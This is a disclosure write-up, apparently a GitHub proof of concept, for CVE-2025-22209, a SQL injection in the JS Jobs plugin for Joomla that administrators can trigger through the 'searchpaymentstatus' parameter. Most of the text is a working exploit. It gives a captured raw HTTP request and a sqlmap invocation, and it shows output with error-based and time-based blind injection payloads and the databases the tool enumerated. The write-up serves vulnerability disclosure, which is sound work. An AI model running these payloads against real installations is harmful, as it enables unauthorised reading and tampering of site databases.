# CVE-2025-22209: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22209

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'searchpaymentstatus' parameter in the Employer Payment History search feature.

## POC
To exploit this vulnerability go to 'Dashboard >> Payments >> Employer History >> Employer Payment History >> Title: test >> Employee Name: test >> Price: test >> Search' and capture the search request. Save the request to a file (req.txt) and run sqlmap through the file to exploit the vulnerable parameter (searchpaymentstatus).

![Alt text](3.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 3fe7c6c5dfe0b5f6afb4c9fb2fa76e2d=68e067f4856a257ca2442db063e4bcc1; fc10f92369cf23c8bddb3e364e3c0e59=3e7941ea2adf0d5092218a8dd72872e1
Connection: keep-alive

searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap/sqlmap.py -r ~/req.txt --batch --dbs

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: searchpaymentstatus (POST)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=GTID_SUBSET(CONCAT(0x7178767a71,(SELECT (ELT(3784=3784,1))),0x7176706b71),3784)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=(SELECT 2450 FROM (SELECT(SLEEP(5)))mdKf)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
